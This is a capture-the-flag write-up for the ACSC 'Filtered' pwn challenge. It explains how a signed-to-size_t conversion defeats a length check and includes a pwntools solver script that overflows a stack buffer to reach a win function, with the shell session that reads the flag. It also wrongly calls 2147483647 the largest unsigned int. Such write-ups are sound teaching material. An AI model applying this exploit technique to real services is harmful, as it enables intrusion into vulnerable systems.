 ```yaml
---
description: Buffer overflow with a flawed length check
---
```


# Filtered

## Description

Filter invalid sizes to make it secure!\
\
Backup: `nc 167.99.78.201 9001`

`nc filtered.chal.acsc.asia 9001`

{% file src="../../.gitbook/assets/filtered.tar.gz_9a6cb1b3eafce70ff549ba6b942f34a9.gz" %}
Challenge Files
{% endfile %}

## Solution

First, the user is asked for the data length. If the length is more than 0x100, the program exits.

```c
int length;
char buf[0x100];

/* Read and check length */
length = readint("Size: ");
if (length > 0x100) {
  print("Buffer overflow detected!\n");
  exit(1);
}

/* Read data */
readline("Data: ", buf, length);
print("Bye!\n");
```

The length is read using `atoi()`:

```c
/* Print `msg` and read an integer value */
int readint(const char *msg) {
  char buf[0x10];
  readline(msg, buf, 0x10);
  return atoi(buf);
}
```

I came across [this thread](https://stackoverflow.com/questions/41869515/overflow-when-change-from-string-to-int-in-c/41869611). Using `2147483648`, an integer overflow is caused since the largest unsigned int is `2147483647`. Therefore, `length` will be a negative signed integer, passing the length check.

However, when calling `readline()`, the length is passed to a `size_t` argument.

```c
/* Print `msg` and read `size` bytes into `buf` */
void readline(const char *msg, char *buf, size_t size) {
  char c;
  print(msg);
  for (size_t i = 0; i < size; i++) {
    if (read(0, &c, 1) <= 0) {
      print("I/O Error\n");
      exit(1);
    } else if (c == '\n') {
      buf[i] = '\0';
      break;
    } else {
      buf[i] = c;
    }
  }
}
```

Now, `size_t` is _unsigned_, so the permitted size would instead become a large positive integer. We can try this experiment ourselves:

```c
int main() {
    int length = atoi("2147483648");
    printf("%d\n", length);

    size_t size = length;
    printf("%zu\n", length);
}
```

The output would be:

```
-2147483648
2147483648
```

From here, this is a regular buffer overflow challenge. The offset is 280, and we want to jump to the win function here:

```
0x004011d6    1 65           sym.win
```

Solver script:

```python
from pwn import *

conn = remote("167.99.78.201", 9001)

print(conn.recvuntil(b"Size:"))

conn.send(b"2147483648\r\n")

print(conn.recvuntil(b"Data:"))

conn.send(b"A" * 280 + p64(0x004011d6) + b"\r\n")

conn.interactive()
```

Get the flag:

```
└─# python3 filtered.py
[+] Opening connection to 167.99.78.201 on port 9001: Done
b'Size:'
b' Data:'
[*] Switching to interactive mode
 Bye!
$ whoami
pwn
$ ls -la
total 36
drwxr-xr-x 1 root pwn   4096 Sep 18 02:21 .
drwxr-xr-x 1 root root  4096 Sep 18 02:21 ..
-r-xr-x--- 1 root pwn     40 Sep 18 02:20 .redir.sh
-r-xr-x--- 1 root pwn  17008 Sep 18 02:20 filtered
-r--r----- 1 root pwn     59 Sep 18 02:20 flag-08d995360bfb36072f5b6aedcc801cd7.txt
$ cat flag-08d995360bfb36072f5b6aedcc801cd7.txt
ACSC{GCC_d1dn'7_sh0w_w4rn1ng_f0r_1mpl1c17_7yp3_c0nv3rs10n}
$
```
